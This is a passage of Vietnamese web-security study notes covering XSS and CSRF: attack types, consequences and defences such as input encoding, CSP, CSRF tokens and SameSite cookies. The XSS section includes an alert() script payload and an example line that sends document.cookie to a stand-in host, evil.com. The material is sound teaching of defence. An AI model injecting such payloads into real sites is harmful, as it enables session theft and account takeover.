 
- **💥 Ví dụ đơn giản**
- Người dùng nhập bình luận:
```html
<script>alert('Bạn bị XSS!');</script>
```
- JavaScript được thực thi trên trình duyệt người khác
- **🧨 Hậu quả**
- document.cookie                   :	Đánh cắp phiên đăng nhập
- fetch('http://evil.com?c='+cookie):	Gửi cookie về server của hacker
- document.location = 'http://evil.com':	Chuyển hướng người dùng
- keylogger                         :	Ghi lại phím người dùng gõ
- Tải mã độc                        :	Kết hợp tấn công nâng cao hơn (phishing, RCE)

- **Phân loại:**
  - **XSS lưu trữ (Stored):** Mã độc được lưu trữ trên máy chủ và gửi đến người dùng khi họ truy cập trang.
  - **XSS phản hồi (Reflected):** Mã độc được chèn vào URL và phản hồi ngay lập tức, không lưu trữ.
  - **XSS DOM-Based(Document object Model):** Mã độc thay đổi cấu trúc DOM của trang web mà không cần tương tác với máy chủ.

- **Tác hại:** Đánh cắp cookies, điều khiển tài khoản người dùng, thực hiện hành vi giả mạo.

- **Cách phòng chống:**
  - ✅ Lọc và mã hóa đầu vào người dùng
  - ✅ Sử dụng CSP (Content Security Policy): Hạn chế nguồn script được thực thi
  - ✅ Tránh sử dụng eval() hoặc các hàm tương tự
  - ✅ Kiểm tra và cập nhật thư viện thường xuyên

## 12. Cross-Site Request Forgery (CSRF)
- **Mô tả:** là kiểu tấn công khiến nạn nhân (đã đăng nhập) vô tình thực hiện hành động (chuyển tiền, đổi mật khẩu, xóa tài khoản...) mà họ không hề biết, nhưng hành động đó lại được gửi từ trình duyệt của họ với quyền hợp pháp.
- ➡️ Nói cách khác: Kẻ tấn công lừa trình duyệt của nạn nhân gửi yêu cầu đến website khác, nơi mà nạn nhân đã đăng nhập.

- **🎯 Hậu quả của CSRF**

| Hành động giả mạo                 | Tác hại có thể gây ra            |
| --------------------------------- | -------------------------------- |
| Đổi địa chỉ email/số điện thoại   | Chiếm quyền tài khoản            |
| Gửi tin nhắn / bài viết           | Lợi dụng nạn nhân spam / lừa đảo |
| Thay đổi mật khẩu / thông tin     | Mất kiểm soát tài khoản          |
| Thực hiện giao dịch (chuyển tiền) | Mất tài sản                      |

- **⚠️ Điều kiện xảy ra CSRF**
- Người dùng đã đăng nhập vào hệ thống
- Web không xác minh nguồn gốc request
- Trình duyệt tự gửi cookie/session tự động
- **🛡️ Cách phòng chống CSRF**

| Biện pháp| Mục đích |
| -------------------------- | ---------------------------------------- |
| ✅ **Sử dụng CSRF Token**| Mỗi request gửi form có một mã token duy nhất, xác minh người gửi là thật |
| ✅ **Xác minh HTTP Referer / Origin**| Chỉ chấp nhận request từ trang chính chủ |
| ✅ **Không dùng GET cho hành động quan trọng**| GET nên chỉ dùng để đọc dữ liệu |
| ✅ **Sử dụng SameSite Cookie**| Giới hạn cookie chỉ gửi khi cùng domain |
| ✅ **Yêu cầu xác thực lại (password)** cho các hành động nhạy cảm| Ngăn bot giả mạo tự động thực hiện |


